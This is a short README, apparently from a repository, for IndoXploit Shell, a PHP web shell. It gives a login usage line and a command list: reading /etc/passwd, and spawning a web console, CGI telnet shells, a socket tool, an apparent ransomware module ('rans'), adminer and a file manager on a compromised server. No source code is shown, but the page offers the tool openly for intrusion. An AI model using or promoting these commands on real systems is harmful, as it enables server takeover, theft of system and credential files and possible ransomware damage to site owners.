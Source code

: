 ## IndoXploit-Shell
```
                
                ___  __   __        ___           
          |  | |__  |__) /__` |__| |__  |    |    
          |/\| |___ |__) .__/ |  | |___ |___ |___ 
                                       
             
                     IndoXploit Shell
                 Tools recoded by flux10n

         [?] Usage login to shell: shell.php?login 
                 Copyright © 2022 Flux10n

```

## Command

- <b><i>Read File</i></b>
```
rf [filenane]
rf /etc/passwd
```

- <b><i>Spawn File</i></b>
```
spawn webconsole
spawn cgitelnet1
spawn cgitelnet2
spawn cgipy
spawn soc
spawn rans
spawn adminer
spawn LRE
spawn fm
phpinfo
```
